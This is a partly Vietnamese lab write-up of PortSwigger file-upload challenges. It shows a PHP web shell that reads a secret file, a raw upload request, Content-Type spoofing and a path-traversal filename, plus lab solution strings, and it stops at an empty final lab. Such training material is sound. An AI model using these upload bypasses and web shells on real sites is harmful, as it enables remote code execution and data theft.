# File Upload (6 labs)

Causes: 

Impact:

Categories: 

Prevention: 

Common Payload:


## Apprentice

### [Lab 1: Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

Lab des: 

Lợi dụng chức năng upload ảnh đại diện (avatar) để tải lên một web shell PHP, thực thi mã từ xa và đọc nội dung file bí mật: `/home/carlos/secret`

Steps: 

- Test chức năng upload ảnh: 

  

- craft file `exploit.py`: `<?php echo file_get_contents('/home/carlos/secret'); ?>`

  => upload avt = file php 

  Send req to burp repeater, gửi req, response trả về sẽ là nột dung file secret cần tìm.






### [Lab 2: Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

Lab des: 

Bypass kiểm tra loại file bằng cách giả mạo MIME type, upload web shell PHP, rồi dùng nó để đọc `/home/carlos/secret`.

Steps: 

- thử upload file `exploit.php` => fail

  ```html
  POST /my-account/avatar HTTP/2
  Host: 0a1000d503b0da6a83163dde00600082.web-security-academy.net
  Cookie: session=xMbzLeO65tX5gNhSl4hoRExqfXhIrnTg
  
  // redacted info
  
  Referer: https://0a1000d503b0da6a83163dde00600082.web-security-academy.net/my-account?id=wiener
  Accept-Encoding: gzip, deflate, br
  Accept-Language: en-US,en;q=0.9
  Priority: u=0, i
  
  ------WebKitFormBoundaryht1QVIp1MjDRXZEl
  Content-Disposition: form-data; name="avatar"; filename="exploit.php"
  Content-Type: application/octet-stream
  
  <?php echo file_get_contents('/home/carlos/secret'); ?>
  ------WebKitFormBoundaryht1QVIp1MjDRXZEl
  Content-Disposition: form-data; name="user"
  
  wiener
  ------WebKitFormBoundaryht1QVIp1MjDRXZEl
  Content-Disposition: form-data; name="csrf"
  
  KCYwsgx1yoZgazPhaGICo9CM42wtFWfj
  ------WebKitFormBoundaryht1QVIp1MjDRXZEl--
  
  ```

  Thay dòng `COntent-Type` = 

  ```
  Content-Type: image/jpeg
  ```

  

=> upload oke



- submit the solution `Q5lUXaP3ySGQFSMz0hDRCQ9pQ8UC85rq`=> solve the lab



## Practitioner

### [Lab 1: Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

Lab des: 

Bypass việc ngăn thực thi file upload bằng cách (sử dụng path traversal) di chuyển file ra khỏi thư mục `/avatars/`, nơi không được thực thi, để đưa nó lên thư mục `/files/` có thể thực thi PHP.

Khi upload file exploit.php, trình duyệt k chặn, nhưng cũng k cho phép thực thi mà chỉ hiển thị nội dung là plain text:



Steps:



Chỉnh sửa phần `filename` trong trường `Content-Disposition` thành `..%2fexploit.php` (url encode của chuỗi traversal 1 lần)

=> send req





H file exploit.php được up lên và nằm ở thư mục /files/, chỉnh sửa req GET để xem ở đó file exploit có được thực thi không:



=> `H8FDxN2dSVgcQVsl1aRRnWpT1152c6dk` 




### [Lab 2: Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)

Lab des: 


Steps: 